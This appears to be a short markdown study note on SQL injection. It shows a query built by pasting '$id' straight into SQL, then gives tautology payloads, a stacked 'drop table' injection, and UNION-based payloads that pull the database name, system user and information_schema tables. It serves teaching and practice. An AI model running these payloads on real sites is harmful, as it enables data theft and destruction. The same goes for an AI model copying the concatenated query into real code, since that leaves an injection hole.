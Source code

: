 # SQLinjection  
SQL is a famous database engine which is used with web server. In this situation, we can inject some SQL based code to get what we want <3.  
Remember, practice makes perfect!   
  
### Basic injection  
select password from users where name = '$id';  
So, what can we insert into $id?  
```  
5566 or 1=1 --  
5566; drop table hello  // execute drop table on second line
rafael' or 1=1 --  // select password from users where name = 'rafael' or 1=1 --';  
rafael' or ''='    // select password from users where name = 'rafael' pr ''=''; 
```  
  
### Union based  
Try on terminal what will **SELECT name, password FROM users WHERE id = 1 UNION SELECT 1, 2** happen?  
Ans: The union result will show as second result with matching column of name and password!  
Therefore, if we just want the info we need, we can make the first clause not exist...  
```
select name, password from users where id = 1 and 1 = 0 union select 1, 2;  
// what can we use on 1, 2?  
select name, password from users where id = 1 and 1 = 0 union select database(), system_user();
// we can even get other table names by information schema!  
... union select table_name, column_name from information_schema.columns;
// so many data, we can use with **limit**  
... union select table_name, column_name from information_schema.columns limit 1, 1;    // get data from index 2 with count of 1
```
